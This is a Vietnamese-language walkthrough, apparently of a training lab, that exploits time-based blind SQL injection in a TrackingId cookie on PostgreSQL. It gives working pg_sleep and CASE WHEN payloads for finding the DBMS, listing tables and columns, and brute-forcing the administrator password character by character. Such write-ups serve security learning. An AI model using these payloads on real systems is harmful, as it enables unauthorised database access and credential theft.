




# Lab: Blind SQL injection with time delays and information retrieval

## 1. Kiểm tra ban đầu

Payload thử:

```text
TrackingId=XtpqVxkT3O9ABeBd'     // không thấy có gì đặc biệt
TrackingId=XtpqVxkT3O9ABeBd'--   // không thấy có gì đặc biệt
TrackingId=XtpqVxkT3O9ABeBd''--  // không thấy có gì đặc biệt
```

## 2. Xác định SQLi time-based và DBMS

Thử payload time-based theo DBMS:

```text
MySQL:      ' AND SLEEP(10)--
MSSQL:      '; WAITFOR DELAY '0:0:10'--
Oracle:     ' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',10)--
PostgreSQL: '; SELECT pg_sleep(10)--
```

Quan sát: `pg_sleep(10)` delay 10 giây.

Kết luận: có thể xác định DBMS là PostgreSQL.



## 3. Trigger bằng CASE statement

```text
'; SELECT CASE WHEN 1=1 THEN 'true' ELSE pg_sleep(10) END  // bình thường
'; SELECT CASE WHEN 1=2 THEN 'true' ELSE pg_sleep(10) END  // delay 10s
```

Kết luận: có thể dùng CASE WHEN để kiểm tra điều kiện và trích xuất thông tin.

## 4. Xác định số bảng trong schema public

Payload kiểm tra nhanh:

```text
'; SELECT CASE WHEN (SELECT COUNT(tablename) FROM pg_tables WHERE schemaname='public') > 100 THEN 'true' ELSE pg_sleep(5) END
```

Payload chạy intruder:

```text
'; SELECT CASE WHEN (SELECT COUNT(tablename) FROM pg_tables WHERE schemaname='public') = $1$ THEN pg_sleep(5) ELSE 'true' END
```

Quan sát: delay 5 giây tại giá trị `2`.

Kết luận: có 2 bảng trong database.

## 5. Xác định tên các bảng

Bảng 1:

```text
'; SELECT CASE WHEN (LENGTH((SELECT tablename FROM pg_tables WHERE schemaname='public' LIMIT 1))) = $1$ THEN pg_sleep(5) ELSE 'true' END
```

Quan sát: delay 5 giây ở giá trị `5`.

Xác định tên bảng 1:



Kết luận: có bảng `users`.

Bảng 2:

```text
'; SELECT CASE WHEN (LENGTH((SELECT tablename FROM pg_tables WHERE schemaname='public' OFFSET 1))) = $1$ THEN pg_sleep(5) ELSE 'true' END
```

Quan sát: delay 5 giây ở giá trị `6`.

Xác định tên bảng 2:



Kết luận: có bảng `tracking`.

## 6. Kiểm tra cột trong bảng users

Payload:

```text
'; SELECT CASE WHEN (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='users' AND column_name='password') = 1 THEN pg_sleep(5) ELSE 'true' END
```

Kết luận: có cột `password` và `username` trong bảng `users`.

## 7. Lấy độ dài password của administrator

Payload:

```text
'; SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username='administrator'))) = $1$ THEN pg_sleep(5) ELSE 'true' END
```

Quan sát: delay 5 giây ở giá trị `20`.

Kết luận: password của `administrator` có độ dài 20.

## 8. Trích xuất password của administrator

Payload brute-force từng ký tự:

```text
'; SELECT CASE WHEN (SUBSTRING(((SELECT password FROM users WHERE username='administrator')),$1$,1))='$1$' THEN pg_sleep(5) ELSE 'true' END--
```



Kết quả cuối: password của `administrator` là `euv1j7o52iylwx99s8z6`.